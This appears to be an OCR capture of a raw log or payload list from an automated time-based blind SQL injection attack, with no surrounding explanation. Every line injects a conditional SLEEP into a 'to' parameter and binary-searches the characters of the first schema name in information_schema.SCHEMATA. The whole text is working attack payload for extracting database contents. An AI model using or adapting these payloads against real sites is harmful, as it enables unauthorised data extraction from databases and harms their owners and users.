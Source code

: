 {to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=100,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>100,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=102,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=108,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>108,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=110,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>110,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=111,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=120,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>120,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=116,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>116,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=114,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 0,1)=96,SLEEP(0.155797244898),SLEEP(0))}